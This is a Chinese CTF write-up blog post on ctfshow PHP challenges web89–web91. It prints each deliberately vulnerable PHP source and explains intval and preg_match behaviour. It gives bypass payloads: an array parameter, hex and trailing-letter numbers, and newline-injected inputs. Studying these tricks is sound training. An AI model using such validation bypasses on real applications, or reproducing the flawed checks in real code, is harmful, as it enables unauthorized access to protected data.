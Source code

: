 ```yaml
---
title: php特性刷题
date: 2025-01-02 16:38:52
tags:
    - "web"
    - "刷题"
    - ctfshow_php特性
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web89

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 15:38:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```
preg_match:
    执行一个正则表达式匹配。
intval():
    用于获取变量的整数值

intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。
PHP 4, PHP 5, PHP 7

如果 base 是 0，通过检测 var 的格式来决定使用的进制：
如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，
如果字符串以 "0" 开始，使用 8 进制(octal)；否则，
将使用 10 进制 (decimal)。

``` 妙妙的用法:
<?php
echo intval(42);                      // 42
echo intval(4.2);                     // 4
echo intval('42');                    // 42
echo intval('+42');                   // 42
echo intval('-42');                   // -42
echo intval(042);                     // 34
echo intval('042');                   // 42
echo intval(1e10);                    // 10000000000
echo intval('1e10');                  // 10000000000
echo intval(0x1A);                    // 26
echo intval(42000000);                // 42000000
echo intval(420000000000000000000);   // 0
echo intval('420000000000000000000'); // 2147483647
echo intval(42, 8);                   // 42
echo intval('42', 8);                 // 34
echo intval(array());                 // 0
echo intval(array('foo', 'bar'));     // 1
?>
```

``` payload:
num[]=1
```

### web90
```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:06:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

``` payloads:
num=0x117c
num=4476a
```

### web91

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:16:09
# @link: https://ctfer.com

*/

show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}

```
im模式是可以匹配很多行
i模式只能匹配一行
``` payloads:
cmd=php%0a1
cmd=%0aphp
```